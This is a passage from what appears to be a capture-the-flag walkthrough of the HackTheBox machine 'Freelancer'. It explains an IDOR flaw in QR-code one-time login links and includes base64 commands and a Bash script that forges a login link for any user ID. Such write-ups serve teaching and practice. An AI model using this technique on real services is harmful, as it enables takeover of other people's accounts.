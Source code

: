 That binary junk starts with the [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for a PNG image.

#### IDOR

Looking more closely at the URL from the QR-Code, there are two pirces of data. I’ll call them the base64 element and the hex element, leaving the URL format as `http://freelancer.htb/accounts/login/otp/[base64]/[hex]/`.
- The base64 element, such as `MTAwMTA=`, seems to be the same for every URL generated by my account, but changes when I log into a different account.
- The hex element, such as `71c40e88da186a5d53afe78b585f1382`, changes for each QR generated.

The base64 element decodes to a number:

```

oxdf@hacky$ echo MTAwMTA= | base64 -d
10010

```

I registered my freelancer account just after my employer account, so it is likely 10011. I’ll encode that ID:

```

oxdf@hacky$ echo 10011 | base64
MTAwMTEK    

```

I’ll visit an updated link replacing the base64-encoded data with the new ID, and it shows the profile of my freelancer account:

![image-20240607143445689](/img/image-20240607143445689.png)

This access suggests that as long as I have a valid hex element, it means I can log in as any user just by knowing their ID.

#### Find User Ids

For the sake of playing with this, I’ll make a quick Bash script to take in a user ID and generate a new link:

```

#!/bin/bash

if [ $# -ne 2 ]; then
    echo "Usage: $0 <session_cookie> <id>";
    exit
fi  

curl http://freelancer.htb/accounts/otp/qrcode/generate/ -b "sessionid=$1" -o- -s |
    zbarimg - 2>&1 |
    grep QR | cut -d: -f2- |
    sed "s/MTAwMTA=/$(echo ${2} | base64 -w0)/"

```
